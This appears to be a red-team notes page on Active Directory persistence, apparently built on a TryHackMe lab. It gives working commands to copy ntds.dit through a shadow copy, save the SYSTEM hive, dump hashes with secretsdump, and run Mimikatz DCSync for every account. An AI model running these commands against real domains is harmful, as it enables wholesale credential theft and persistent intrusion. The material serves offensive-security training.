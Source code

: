 # Persistence

DCSync to get all hashes and maybe target other DCs if they exist.

## Shadow Copies

A Shadow Copy, also known as Volume Shadow Service (VSS) is a Microsoft backup technology that allows creation of snapshots of files or entire volumes.

{% code overflow="wrap" fullWidth="true" %}
```csharp
https://learn.microsoft.com/en-us/windows/win32/vss/vshadow-tool-and-sample
# The attack needs Domain Admin and be launched from an elevated prompt
vshadow.exe -nw -p C: # take note of the shadow copy device name
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak # copy the whole AD Database shadow copy to C:
reg.exe save hklm\system c:\system.bak # to correctly extract ntds.dit, we need to save the SYSTEM hive
secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
# Another (stealthier) way is to move laterally to the DC and run Mimikat to dump every hash using DCSync
```
{% endcode %}

You should not wait until the full domain compromise to deploy persistence. After each round of lateral movement and privilege escalation, persistence should be deployed.

## Credentials

{% code overflow="wrap" fullWidth="true" %}
```powershell
The goal then is to persist with near-privileged credentials. We don't always need the full keys to the kingdom; we just need enough keys to ensure we can still achieve goal execution and always make the blue team look over their shoulder. As such, we should attempt to persist through credentials such as the following:

    Credentials that have local administrator rights on several machines. Usually, organisations have a group or two with local admin rights on almost all computers. These groups are typically divided into one for workstations and one for servers. By harvesting the credentials of members of these groups, we would still have access to most of the computers in the estate.
    Service accounts that have delegation permissions. With these accounts, we would be able to force golden and silver tickets to perform Kerberos delegation attacks.
    Accounts used for privileged AD services. If we compromise accounts of privileged services such as Exchange, Windows Server Update Services (WSUS), or System Center Configuration Manager (SCCM), we could leverage AD exploitation to once again gain a privileged foothold.
    
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /user:<Your low-privilege AD Username>
# This is great and all, but we want to DC sync every single account. To do this, we will have to enable logging on Mimikatz:
mimikatz # log <myusername>_dcdump.txt 
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all
cat <username>_dcdump.txt | grep "SAM Username"
```
{% endcode %}

